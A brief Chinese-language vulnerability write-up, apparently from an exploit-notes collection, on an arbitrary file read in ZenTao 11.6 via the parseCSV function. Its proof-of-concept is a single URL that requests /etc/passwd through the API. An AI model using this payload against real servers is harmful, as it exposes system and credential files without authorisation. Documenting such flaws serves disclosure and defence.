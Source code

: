 # 禅道 11.6 任意文件读取

### 一、漏洞简介

禅道项目管理软件是一款国产的，基于LGPL协议，开源免费的项目管理软件，它集产品管理、项目管理、测试管理于一体，同时还包含了事务管理、组织管理等诸多功能，是中小型企业项目管理的首选，基于自主的PHP开发框架──ZenTaoPHP而成，第三方开发者或企业可非常方便的开发插件或者进行定制。

厂商官网：https://www.zentao.net/

而此次发现的漏洞正是ZenTaoPHP框架中的通用代码所造成的的，因此禅道几乎所有的项目都受此漏洞影响

### 二、漏洞影响

禅道 11.6

禅道开源版 9版本

### 三、复现过程

漏洞代码位于module/file/model.php中的parseCSV函数

![](images/15897252597050.png)


这里通过上面的思路同样可以对fileName进行赋值，最终返回读取的文件数据

漏洞poc为：


```bash
http://url/zentaopms_11.6/www/api-getModel-file-parseCSV-fileName=/etc/passwd
```

![](images/15897252791951.png)
